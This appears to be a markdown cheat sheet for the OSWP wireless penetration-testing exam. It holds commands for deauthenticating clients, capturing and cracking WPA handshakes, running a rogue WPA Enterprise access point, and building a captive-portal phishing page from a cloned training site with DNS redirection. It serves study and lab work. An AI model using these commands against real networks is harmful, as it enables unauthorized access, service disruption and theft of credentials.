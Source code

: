 # OSWP

## Aircrack-ng 
### Packet sniffer, network detector, frame injection, cracks WEP and WPA-PSK 
```
sudo airmon-ng check
sudo airmon-ng check kill

sudo /usr/sbin/airmon-ng
sudo airmon-ng start wlan0
sudo airmon-ng start wlan0 [channel #]
sudo airmon-ng stop wlan0

iw wlan0 info
iwconfig
ifconfig

```

## Airodump-ng 
### WEP, WPA/WPA2
#### Don't forget to specify interface
```
sudo airodump-ng wlan0mon -c 2
sudo airodump-ng -c 3 --bssid 34:08:04:09:3D:38 -w 1.cap wlan0mon
```
|CMD|DESC|
|-----|-----|
|-w|output filename| 
|--bsssid|specific BSSID|
|--essid|specific ESSID|
|-c|channel|
|-g|GPS|
|--ivs| Interval Vectors
|-R|Regular Expression|

## Aireplay-ng
### Generate wireless traffic, deauths, WEP
#### Set card to channel [#]
```
sudo airmon-ng start wlan0 # 
```
### Deauth
```
sudo aireplay-ng -0 10 -a 34:08:04:09:3D:38 wlan0mon
```
|CMD|DESC|
|-----|-----|
-0 |# deauths
0 | continuous
-a|BSSID
-c|client MAC

## Aircrack-ng
### Cracking Hashes
```
aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap
```
### John the Ripper
```
john --format=netntlm timothy --wordlist=/usr/share/wordlists/rockyou.txt
```
### Hashcat
```
hashcat -m [hashtype] [hash] [dictionary]
```
## Useful Linux Commands
```
scp kali@192.168.10.94:/home/kali/1.cap-01.cap .
gzip -d file .gz
```
## Attacking WPA Enterprise
```
sudo airodump-ng wlan0mon
sudo apt install freeradius
nano ca.cnf, nano server.cnf
make
sudo apt install hostapd-mana
mana.conf
mana.eap_user
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```
## Certs
```
openssl x509 -in CERT_FILENAME -noout -enddate
openssl x509 -inform der -in CERTIFICATE_FILENAME -text
```

## Captive Portal
```
sudo apt install apache2 libapache2-mod-php
wget -r -l2 https://www.megacorpone.com
/var/www/html/portal/index.php
sudo cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/
sudo cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/
/var/www/html/portal/login_check.php

sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
sudo apt install dnsmasq
mco-dnsmasq.conf
sudo dnsmasq --conf-file=mco-dnsmasq.conf
sudo tail /var/log/syslog | grep dnsmasq
sudo netstat -lnp

sudo apt install nftables
sudo nft add table ip nat
sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53

/etc/apache2/sites-enabled/000-default.conf
